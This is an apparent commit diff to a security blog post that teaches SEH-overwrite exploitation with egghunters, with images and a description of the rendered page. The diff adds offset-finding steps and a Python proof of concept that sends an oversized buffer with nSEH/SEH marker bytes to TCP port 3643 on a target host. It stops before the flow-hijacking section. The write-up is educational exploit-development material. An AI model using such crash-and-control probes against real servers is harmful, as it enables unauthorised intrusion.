

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md, in a window 1280 px wide and 1400 px high, scrolled down 4706 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md

````diff
--- a/_posts/posts/2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md
+++ b/_posts/posts/2020-03-09-Exploiting-SEH-Overwrites-on-Windows-with-the-use-of-Egghunters.md
@@ -137,3 +137,56 @@
 After the PoC is executed, the debugger gives an interesting response:
 
 ![](/assets/img/SEH/3-2.png)
+
+Checking the SEH chain:
+
+![](/assets/img/SEH/4.png)
+
+As seen, the nSEH and SEH addresses have been overwritten, in order to obtain the nSEH offset, a pattern is generated with msf-pattern_create:
+
+![](/assets/img/SEH/5.png)
+
+This pattern is copied into the exploit and sent:
+
+![](/assets/img/SEH/6.png)
+
+Once again, the debugger shows how an Access Violation was generated.
+
+Checking the SEH chain:
+
+![](/assets/img/SEH/7.png)
+
+The nSEH address is copied and the offset is found with msf-pattern_offset.
+
+![](/assets/img/SEH/8.png)
+
+## Getting control
+
+As the offset has been found, it is left to check if control has been obtained. In order to do this, 8 bytes will be sent after the offset, if both nSEH and SEH are overwritten by these bytes, control has been obtained.
+
+Current PoC:
+
+```python
+import socket
+import sys
+import struct
+
+host = sys.argv[1]
+
+buffer = "A" * 804 + "BBBB" + "CCCC" + "\xff" * 200
+
+z = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+z.connect((host, 3643))
+
+print "[*] Sending Payload!"
+
+z.send("%s\r\n" %buffer)
+
+z.close()
+```
+After the PoC is executed against the server, both values are successfully overwritten:
+
+![](/assets/img/SEH/9.png)
+
+## Hijacking the flow
````
